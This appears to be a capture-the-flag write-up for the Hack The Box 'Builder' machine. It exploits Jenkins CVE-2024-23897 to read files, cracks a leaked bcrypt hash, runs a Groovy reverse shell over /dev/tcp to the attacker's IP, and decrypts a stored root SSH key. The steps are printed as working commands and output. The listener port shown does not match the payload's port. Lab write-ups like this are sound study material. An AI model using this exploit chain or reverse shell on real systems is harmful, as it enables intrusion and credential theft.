





# Builder - Medium

Target IP: **10.129.230.220**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.230.220 -v```

Output shows standard port 22 for ssh and port 8080 running Jenkins on Jetty 10.0.18.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(10.0.18)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's navigate to port 8080.

We are greeted with a Jenkins dashboard, and see can see on the bottom that it runs Jenkins 2.441.



It seems like there is a ```Jennifer``` user that we are trying to get access to.



Looking for publicly disclosed vulnerabilities for Jenkins 2.4.41, I find that it is vulnerable to CVE-2024-23897, an arbitrary file read vulnerability. Let's try this [PoC](https://github.com/Vozec/CVE-2024-23897/blob/main/CVE-2024-23897.py).

The PoC was a bit unstable, so I decided to manually exploit this instead. We can download the Jenkins CLI directly from the instance.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-lfiwvlyius]─[~]
└──╼ [★]$ wget http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar
--2026-09-23 16:32:14--  http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar
Connecting to 10.129.230.220:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar’

jenkins-cli.jar                     100%[=================================================================>]   3.46M  --.-KB/s    in 0.1s    

2026-09-23 16:32:14 (30.2 MB/s) - ‘jenkins-cli.jar’ saved [3623400/3623400]
```

We can read files this way.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-lfiwvlyius]─[~]
└──╼ [★]$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ help @/etc/passwd

ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)
```

Looking at ```/proc/self/environ```, we can see that the hostname is random, which indicates that it is running inside a Docker container, and that the home directory is located at ```/var/jenkins_home```.

```
ERROR: No such command HOSTNAME=0f52c222a4ccJENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimentalJAVA_HOME=/opt/java/openjdkJENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementalsCOPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.logPWD=/JENKINS_SLAVE_AGENT_PORT=50000JENKINS_VERSION=2.441HOME=/var/jenkins_homeLANG=C.UTF-8JENKINS_UC=https://updates.jenkins.ioSHLVL=0JENKINS_HOME=/var/jenkins_homeREF=/usr/share/jenkins/refPATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin. Available commands are above. 
```

Searching on Google reveals that ```/users/users.xml``` stores information about where the directories of Jenkins users are stored.

Using a different command, we can read more lines. We can see Jennifer's directory inside ```/users```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-lfiwvlyius]─[~]
└──╼ [★]$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ reload-job @/var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>: No such item ‘<?xml version='1.1' encoding='UTF-8'?>’ exists.
      <string>jennifer_12108429903186576833</string>: No such item ‘      <string>jennifer_12108429903186576833</string>’ exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such item ‘  <idToDirectoryNameMap class="concurrent-hash-map">’ exists.
    <entry>: No such item ‘    <entry>’ exists.
      <string>jennifer</string>: No such item ‘      <string>jennifer</string>’ exists.
  <version>1</version>: No such item ‘  <version>1</version>’ exists.
</hudson.model.UserIdMapper>: No such item ‘</hudson.model.UserIdMapper>’ exists.
  </idToDirectoryNameMap>: No such item ‘  </idToDirectoryNameMap>’ exists.
<hudson.model.UserIdMapper>: No such item ‘<hudson.model.UserIdMapper>’ exists.
    </entry>: No such item ‘    </entry>’ exists.
```

Reading ```config.xml``` inside ```/users/jennifer_12108429903186576833``` gives us the password hash.

```
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such item ‘      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>’ exists.
```

```jbcrypt``` indicates that it is Java bcrypt, and we can crack it using ```-m 3200``` on hashcat. After running hashcat, the hash is cracked.

```
$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a:princess
```

We can now log in the Jenkins dashboard with ```jennifer:princess```.



We can now abuse the scripting mechanism inside Jenkins to get us back a shell.

Let's run this Groovy script.

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

After we run it, we catch a shell back as the ```jenkins``` user.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-lfiwvlyius]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.230.220 40468
whoami
jenkins
```

We can proceed to get the user flag from here.

## Root Flag

When I was digging around the Jenkins dashboard, I saw that there was a private key for ```root``` being stored on the remote machine. Inside ```credentials.xml```, we can see the encrypted value of the private key.

.

The question is how we could decrypt this key. Apparently, the Jenkins script functionality has a function ```println(hudson.util.Secret.decrypt("{XXX=}"))``` that we can use.

Let's grab the encrypted value and try it.

It decrypted the private key for us.



Let's transfer this over to our attack box and try to log in with it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-lfiwvlyius]─[~]
└──╼ [★]$ ssh -i id_rsa root@10.129.230.220

root@builder:~# whoami
root
```

We can get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
